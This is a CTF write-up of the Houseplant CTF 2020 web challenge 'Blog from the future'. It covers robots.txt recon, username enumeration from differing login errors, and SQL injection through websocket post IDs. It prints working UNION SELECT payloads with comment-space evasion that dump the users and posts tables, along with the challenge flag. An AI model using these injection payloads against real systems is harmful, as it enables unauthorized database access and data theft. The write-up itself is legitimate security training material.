


# Houseplant CTF 2020 – Blog from the future

* **Category:** web
* **Points:** 1922

## Challenge

> My friend Bob likes sockets so much, he made his own blog to talk about them. Can you check it out and make sure that it's secure like he assured me it is?
> 
> http://challs.houseplant.riceteacatpanda.wtf:30003
> 
> Dev: jammy

## Solution

A post in the home page says the following.

```
I finally upgraded my blog to use the tech of the future! I'm now using state of the art protection to defend from those pesky spammers... however, I still have to replace my database software to be truly able to call my blog "futuristic". :/
```

Doing some recon, the following file can be found: `http://challs.houseplant.riceteacatpanda.wtf:30003/robots.txt`.

```
User-Agent: *
Disallow: /admin
```

So you can discover an administration page at `http://challs.houseplant.riceteacatpanda.wtf:30003/admin`.

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Bob&#39;s Socket Reviews Administrative Panel</title>
    <link rel='stylesheet' href='/stylesheets/style.css' />
    <link rel='stylesheet' href='/stylesheets/admin.css' />
  </head>
  <body>
    <a href="#home"><h1>Bob&#39;s Socket Reviews Administrative Panel</h1></a>
    <hr />
    
    <form method="POST">
        <input type="text" name="username" placeholder="Username" />
        <input type="password" name="password" placeholder="Password" />
        <!-- I've replaced the password with a one-time TOTP token, but the evil hackers don't need to know that... >:)
        <input type="password" name="totp" placeholder="One-time TOTP token" /> -->
        <input type="submit" value="Log in" />
    </form>
  </body>
</html>
```

Despite the interesting HTML comment, even changing the input field from `password` to `totp` will show that the authentication form is not vulnerable to SQL injection.

You can only discover that the username is `bob`, because for nonexistent user, the authentication answers `User not found`, otherwise it answers `Login failed`.

Analyzing the websockets traffic, you can discover that posts are retrieved with a packet like the following.



The second part of the packet is the post ID passed using the value specified like URL fragment (i.e. after `#`). 

Analyzing the code in the client side, you can discover that 6 parameters are read form the server response:
* `author`;
* `hidden`, this value seems interesting, because now we know that hidden posts are present;
* `id`;
* `postDate`;
* `text`;
* `title`.



You can try a SQL injection on data passed using fragment values.

```
http://challs.houseplant.riceteacatpanda.wtf:30003/#3/**/union/**/select/**/null,null,null,null,null,null
```

Users can be read with the following.

```
http://challs.houseplant.riceteacatpanda.wtf:30003/#3/**/union/**/select/**/null,username,null,null,null,null/**/from/**/users
```

And the flag can be discovered reading all posts.

```
http://challs.houseplant.riceteacatpanda.wtf:30003/#3/**/union/**/select/**/null,null,null,text,null,null/**/from/**/posts
```


The flag is the following.

```
rtcp{WebSock3t5_4r3_SQLi_vu1n3r4b1e_t00_bacfe0}
```